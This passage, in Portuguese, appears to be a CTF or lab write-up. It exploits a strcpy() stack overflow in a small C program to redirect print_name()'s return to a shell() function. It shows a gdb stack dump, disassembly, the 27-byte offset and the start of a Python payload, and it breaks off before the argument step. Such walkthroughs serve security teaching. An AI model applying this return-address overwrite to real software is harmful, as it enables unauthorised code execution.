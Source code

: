 ```C
 31
 32     print_name(argv[1]);
 33
 34     return EXIT_SUCCESS;
 35 }
```

Vemos, então, que há uma função `shell()` que deve ser chamada com o argumento da `exec_string`. Para isso, temos que explorar o buffer na linha 20, pois há uma chamada de `strcpy()` entre o input (que possui tamanho ilimitado) e o buffer (que possui tamanho limitado).

Nesse sentido, podemos realizar o exploit do return address durante a chamada da função `print_name()` para ela retornar para o endereço de `shell()` e, além disso, inserir a string como uma das variáveis locais.

### Return Address

Inserindo "A" * 15 como input do código, a stack da função `print_name()` fica assim:

```sh
gdb-peda$ x/100x $sp
0xbffff580:     0x91    0xf5    0xff    0xbf    0xcd    0xf7    0xff    0xbf
0xbffff588:     0x01    0x00    0x00    0x00    0x41    0x85    0x04    0x08
0xbffff590:     0xb9    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff598:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff5a0:     0x00    0x00    0x00    0x00    0x64    0xf6    0xff    0xbf
0xbffff5a8:     0xc8    0xf5    0xff    0xbf    0x38    0x87    0x04    0x08
0xbffff5b0:     0xcd    0xf7    0xff    0xbf    0x00    0xf0    0xff    0xb7
0xbffff5b8:     0x4b    0x87    0x04    0x08    0x00    0xd0    0xfc    0xb7
0xbffff5c0:     0x40    0x87    0x04    0x08    0x00    0x00    0x00    0x00
0xbffff5c8:     0x00    0x00    0x00    0x00    0x83    0xca    0xe3    0xb7
0xbffff5d0:     0x02    0x00    0x00    0x00    0x64    0xf6    0xff    0xbf
0xbffff5d8:     0x70    0xf6    0xff    0xbf    0xea    0xcc    0xfe    0xb7
0xbffff5e0:     0x02    0x00    0x00    0x00
```

Repare que de `0xbffff591` a `0xbffff5a0`, temos o buffer repleto de "A"'s (representado por 0x41 em hexa). Entretanto, logo após temos uma sequência de 0x00 e alguns outros bytes. Temos que achar o endereço de retorno. Realizando o disassembly da `main()`, vemos:

```x86
   0x08048730 <+51>:    mov    DWORD PTR [esp],eax
   0x08048733 <+54>:    call   0x80486d0 <print_name>
   0x08048738 <+59>:    mov    eax,0x0
```

Dessa maneira, vemos que o endereço de retorno que buscamos é `0x08048738`. Olhando novamente a stack impressa, vemos esse endereço entre `0xbffff5ac` e `0xbffff5b0`. Portanto, o offset entre o fim da string e o início do return address é de `0x1b` (27) bytes.

Realizando o disassembly da função `shell()`, vemos que o endereço inicial da sua instrução é `0x080486bd`. Então, o início do nosso payload é dado por:

`python -c 'print "A" * 0x1b + "\xbd\x86\x04\x08"`

Nos resta, agora, passar o parâmetro correto para a função.
